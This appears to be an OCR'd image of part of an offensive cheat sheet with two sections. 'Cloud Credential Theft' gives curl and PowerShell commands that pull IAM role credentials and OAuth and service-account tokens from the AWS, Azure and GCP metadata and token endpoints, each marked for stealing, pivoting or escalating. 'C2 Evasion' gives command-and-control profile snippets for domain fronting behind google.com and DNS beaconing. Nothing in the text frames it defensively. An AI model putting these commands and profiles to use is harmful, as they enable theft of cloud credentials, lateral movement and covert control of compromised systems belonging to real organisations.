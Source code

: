 
---

5. Cloud Credential Theft

AWS: Dump IAM Credentials
```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
```
✅ Steal AWS IAM role credentials
✅ Pivot to S3, Lambda, etc.

Azure: Extract OAuth Tokens
```Powershell
Invoke-WebRequest -Uri "https://login.microsoftonline.com/common/oauth2/token" -Method POST
```
✅ Dump Azure AD session tokens
✅ Move laterally in Azure Cloud

GCP: Harvest Service Account Tokens
```bash
curl -H "Metadata-Flavor: Google" "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token"
```
✅ Extracts GCP access tokens
✅ Allows cloud privilege escalation


---

6. C2 Evasion (Stealthy Communication)

We’ll use Google domain fronting and DNS tunneling.

HTTPS Domain Fronting
```C
http-get {
    set uri "/search?q=update";
    client {
        header "Host" "google.com";
        header "User-Agent" "Mozilla/5.0 (Windows NT 10.0)";
    }
}
```
✅ Looks like normal Google traffic
✅ Hard to block without DPI

DNS C2 (Bypasses Firewalls)
```C
dns-beacon {
    set beacon "A";
    set maxdns "240";
    set dns_idle "8.8.8.8";
}
```
✅ Hides in DNS requests
✅ Works on corporate networks
